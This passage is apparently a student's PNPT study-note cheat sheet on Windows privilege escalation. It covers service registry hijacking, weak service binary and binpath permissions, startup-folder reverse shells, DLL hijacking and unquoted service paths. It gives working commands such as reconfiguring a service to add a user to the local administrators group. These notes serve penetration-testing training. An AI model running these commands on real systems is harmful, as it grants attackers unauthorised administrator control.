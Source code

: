 	- `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
	- `sc start regsvc`

# ==Service Executable Files==
---
[[PNPT/WPE/Executable Files - Service Escalation/Information|Information]], [[PNPT/WPE/Executable Files - Service Escalation/Exploitation|Exploitation]]
- `FILE_ALL_ACCESS`
- **Detection from `PowerUp.ps1`** and:
	- `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"`
- **Transfer malicious `x.exe`file and `C:\Program Files...\filepermservice.exe` binary**
- `sc start filepermsvc`

# ==Startup Applications==
---
[[PNPT/WPE/Startup Applications/Overview|Overview]], [[PNPT/WPE/Startup Applications/Exploitation|Exploitation]]
- **==Note:- PowerUp.ps1 does not find this
- `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`
	- **==We are looking for "BUILTIN\USERS : <\F>", Here "F" means full access.==** 
- **Upload the reverse shell here not add user, as it would require administrator prompt when started**

# DLL Hijacking
---
[[PNPT/WPE/DLL Hijacking/Introduction|Introduction]], [[PNPT/WPE/DLL Hijacking/Exploitation|Exploitation]]
`PowerSploit` and ProcMon
# ==Service Permissions (Paths)==
---
- **Binary Paths**
	[[PNPT/WPE/Binary paths (bin path)/Introduction|Introduction]], [[PNPT/WPE/Binary paths (bin path)/Exploitation|Exploitation]]
	- Detection via `PowerUp.ps1`Or 
		- `accesschk64.exe -uwcv Everyone *`
	- `Everyone`: Group `Everyone`, **because this is our group**
	- `accesschk64.exe -uwcv daclsvc`
	-  Our group `Everyone`can **RW**:
		- ==We should have **SERVICE_CHANGE_CONFIG**==
	- `sc qc daclsvc`
	- `sc config daclsvc binpath= "net localgroup administrators user /add"`
	- `sc start daclsvc`

- **Unquoted Service Paths**
	[[PNPT/WPE/Unquoted Service Paths/Introduction|Introduction]], [[PNPT/WPE/Unquoted Service Paths/Exploitation|Exploitation]]
	[[PNPT/THM Boxes/SteelMountain/Privilege Escalation|Privilege Escalation]]
	- Detection via `PowerUp.ps1`-> `Invoke-AllChecks.ps1`
	- Put a malicious **executable file in any writable path in unquoted service path** 
	- `sc stop unquotedsvc`
	- `sc start unquotedsvc`
